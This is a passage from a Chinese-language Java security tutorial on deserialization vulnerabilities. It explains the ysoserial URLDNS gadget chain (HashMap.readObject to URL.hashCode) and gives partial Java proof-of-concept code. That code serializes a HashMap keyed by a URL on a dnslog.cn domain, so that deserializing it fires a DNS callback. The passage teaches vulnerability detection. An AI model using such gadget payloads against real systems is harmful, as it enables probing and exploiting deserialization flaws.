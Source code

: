 触发效果：执行反序列化时，无需额外操作，直接打开计算器。  
![image-20250811154659709](035安全开发.assets/image-20250811154659709.png)


## Java-安全问题-可控其他类重写方法

### 案例：利用HashMap反序列化触发URL DNS请求
参考：https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java  

#### 原理分析：
HashMap的`readObject`方法在反序列化时会调用`putVal`，进而调用`hash`方法，最终触发`URL.hashCode()`。而`URL.hashCode()`会解析URL并发起网络请求（如DNS查询），若URL可控，可用于探测反序列化漏洞（无回显场景下的DNSlog验证）。

#### 利用链（Gadget Chain）：
```
HashMap.readObject() → HashMap.putVal() → HashMap.hash() → URL.hashCode()
```

#### 代码实现：
```java
package com.example.serialtestdemo;

import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class UrLDns implements Serializable {
    public static void main(String[] args) throws IOException, ClassNotFoundException {

        // 创建HashMap对象（JDK自带类，存在反序列化调用链）
        HashMap<URL, Integer> hash = new HashMap<>();
        // 构造恶意URL（指向DNSlog域名，用于检测请求）
        URL u = new URL("http://vnq09p.dnslog.cn");
        // 将URL放入HashMap（序列化时存储该键值对）
        hash.put(u, 1);

        // 序列化HashMap对象到dns.txt
        SerializableTest(hash);

        // 反序列化dns.txt，触发利用链
        UnserializableTest("dns.txt");
    }

    // 序列化方法：将对象写入文件
```